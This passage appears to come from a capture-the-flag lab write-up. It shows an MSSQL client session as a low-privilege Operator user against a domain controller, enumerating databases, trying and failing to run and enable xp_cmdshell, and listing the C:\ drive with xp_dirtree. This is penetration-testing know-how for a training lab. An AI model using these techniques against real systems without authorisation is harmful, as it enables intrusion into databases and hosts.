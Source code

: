         use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
        ! {cmd}                    - executes a local shell cmd
        show_query                 - show query
        mask_query                 - mask query
    

`enum_db` will show the same thing I queried above:

    
    
    SQL (MANAGER\Operator  guest@master)> enum_db
    name     is_trustworthy_on   
    ------   -----------------   
    master                   0
    tempdb                   0
    model                    0
    msdb                     1   
    

`xp_cmdshell` is [feature](https://learn.microsoft.com/en-us/sql/relational-
databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-
ver16) in MSSQL to run commands on the system. operator doesn’t have access,
and can’t enable it:

    
    
    SQL (MANAGER\Operator  guest@master)> xp_cmdshell whoami
    [-] ERROR(DC01\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
    SQL (MANAGER\Operator  guest@master)> enable_xp_cmdshell
    [-] ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
    [-] ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
    [-] ERROR(DC01\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
    [-] ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
    

`xp_dirtree` is another [feature](https://www.sqlservercentral.com/blogs/how-
to-use-xp_dirtree-to-list-all-files-in-a-folder) for listing files on the
filesystem. It works:

    
    
    SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\
    subdirectory                depth   file   
    -------------------------   -----   ----   
    $Recycle.Bin                    1      0   
    Documents and Settings          1      0   
    inetpub                         1      0   
    PerfLogs                        1      0   
    Program Files                   1      0   
    Program Files (x86)             1      0   
    ProgramData                     1      0   
    Recovery                        1      0   
    SQL2019                         1      0   
    System Volume Information       1      0   
    Users                           1      0   
    Windows                         1      0 
    